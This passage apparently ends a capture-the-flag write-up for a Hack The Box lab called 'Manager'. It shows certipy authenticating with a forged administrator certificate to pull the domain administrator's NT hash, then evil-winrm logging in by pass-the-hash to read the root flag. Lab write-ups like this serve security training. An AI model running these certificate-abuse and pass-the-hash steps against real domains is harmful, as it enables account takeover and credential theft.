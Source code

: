 Now we can authenticate with the `administrator.pfx` file.

```sh
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Last step is to connect to WinRM as `administrator` with the hash we got above.

```sh
──(kali㉿kali)-[~/htb/manager]
└─$ evil-winrm -u administrator -H ae5064c2f62317332c88629e025924ef -i dc01.manager.htb

*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
d605dc102172ddfb0da7437bf8b86c79
```
